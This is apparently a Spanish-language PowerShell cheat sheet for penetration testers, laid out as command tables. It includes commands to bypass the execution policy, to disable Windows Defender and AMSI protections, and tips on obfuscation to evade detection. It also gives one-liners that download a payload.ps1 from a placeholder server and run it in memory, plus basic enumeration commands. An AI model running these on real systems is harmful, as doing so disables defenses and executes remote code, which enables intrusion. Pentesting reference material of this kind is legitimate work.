 ## 🕵️ PowerShell para Pentesters

> _“Un gran poder conlleva una gran responsabilidad.”_\
> PowerShell es una herramienta poderosa tanto para administradores como para atacantes. Por ello, todo **pentester** competente debe dominarla para auditar, identificar y explotar vulnerabilidades de manera ética.

***

### 🚨 Modificando políticas de ejecución

| **Comando**                                                                                                                                                                               | **Descripción**                                                                            |
| ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------ |
| `Set-ExecutionPolicy -ExecutionPolicy Bypass`                                                                                                                                             | Permite ejecutar cualquier comando/script de PowerShell sin restricciones ni advertencias. |
| <p>⚠ <strong>Mito</strong>: Cambiar la ExecutionPolicy protege contra malware.<br>✅ <strong>Hecho</strong>: Es solo una “valla” autoimpuesta; no protege una máquina ya comprometida.</p> |                                                                                            |

***

### 🛡️ Evadiendo AMSI y antivirus

| **Comando**                                                                                                                                                                      | **Descripción**                                                                                 |
| -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ----------------------------------------------------------------------------------------------- |
| `Set-MpPreference -DisableIOAVProtection $true`                                                                                                                                  | Desactiva la protección de entrada y salida de AMSI. Requiere ofuscación para evitar detección. |
| `Set-MpPreference -DisableRealTimeMonitoring $true`                                                                                                                              | Apaga Windows Defender. También necesita ser ofuscado para ejecutar sin ser detectado.          |
| <p>🔥 <strong>Técnicas de evasión AMSI</strong>:<br>• Ofuscar scripts (variables ficticias, codificación Base64).<br>• Ejecutar comandos línea por línea para evadir firmas.</p> |                                                                                                 |

***

### ☁️ Descarga y ejecución en memoria

| **Comando**                                                                                        | **Descripción**                                                                                                 |
| -------------------------------------------------------------------------------------------------- | --------------------------------------------------------------------------------------------------------------- |
| `Import-Module /path/to/module`                                                                    | Importa un módulo desde una ruta específica.                                                                    |
| `iex (New-Object Net.WebClient).DownloadString('https://[webserver_ip]/payload.ps1')`              | Descarga y ejecuta un script `payload.ps1` directamente en memoria (RAM).                                       |
| `iex (iwr http://[webserver_ip]/some_script.ps1 -UseBasicParsing)`                                 | Descarga un script `some_script.ps1` y lo ejecuta desde RAM.                                                    |
| `iex (New-Object Net.WebClient).DownloadString('http://localhost/powerview.ps1'); Get-NetComputer` | Carga y ejecuta funciones de PowerView desde RAM (ejemplo: enumerar computadoras de red con `Get-NetComputer`). |

***

### 🔎 Comandos de enumeración

| **Comando**                 | **Descripción**                                                         |
| --------------------------- | ----------------------------------------------------------------------- |
| `net accounts`              | Obtiene la política de contraseñas de la máquina.                       |
| `whoami /priv`              | Lista los privilegios del usuario actual.                               |
| `ipconfig /all`             | Enumera todas las interfaces de red, direcciones IP y DNS configurados. |
| `Get-LocalUser \| Select *` | Lista todos los usuarios locales de la máquina.                         |
| `Get-NetRoute`              | Muestra la tabla de enrutamiento IP.                                    |
| `Get-Command`               | Lista todos los comandos de PowerShell disponibles.                     |
